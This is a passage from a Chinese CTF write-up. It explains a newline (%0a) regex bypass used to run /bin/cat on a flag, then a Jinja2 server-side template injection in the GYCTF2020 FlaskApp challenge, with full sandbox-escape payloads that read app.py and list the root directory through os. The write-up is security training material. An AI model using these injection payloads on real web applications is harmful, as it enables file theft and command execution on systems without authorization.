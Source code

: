 正则匹配的时候没有用m修饰符(换行匹配)，所以我们可以用%0a来绕过

然后他设置了PATH=/home/rceservice/jail，这个目录下只有ls一个命令，想要调用其他系统命令我们还要传入绝对路径，比如/bin/cat。

flag在PATH的上级目录。

```
?cmd={%0A"cmd":"/bin/cat /home/rceservice/flag"%0A}
```

 

 

 

### [[GYCTF2020\]FlaskApp](https://buuoj.cn/challenges#[GYCTF2020]FlaskApp)

考点：flaskSSTI、pin码

referer：https://blog.csdn.net/Alexhcf/article/details/108400293

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210116014936.png)

#### 从base64解码发现SSTI

题目最开始给了两个页面，一个是base64加密、一个是base64解密

在base64解密的页面如果解密出现错误的话，会开启debug

而且在base64解密的页面发现了模板注入，传入`{{config}}`的base64编码会看到以下界面：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210116014940.png)

那么我们可以沙箱逃逸试试，可以用jinja2中控制结构 `{% %}` ，也可以用变量取值 `{{}}`

如果用控制结构：

```
{% for c in [].__class__.__base__.__subclasses__() %} 
{% if 'catch_warnings' in c.__name__%} 
{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }} 
{% endif %}{% endfor %}
```

改成一行：

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if 'catch_warnings' in c.__name__%}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}{% endif %}{% endfor %}
```

可以读取app.py的源码，当然也可读取根目录的flag

如果用变量取值：

```
{{''.__class__.__bases__[0].__subclasses__()[75].__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}
```

可以列根目录文件（这个解法是非预期，预期是pin）
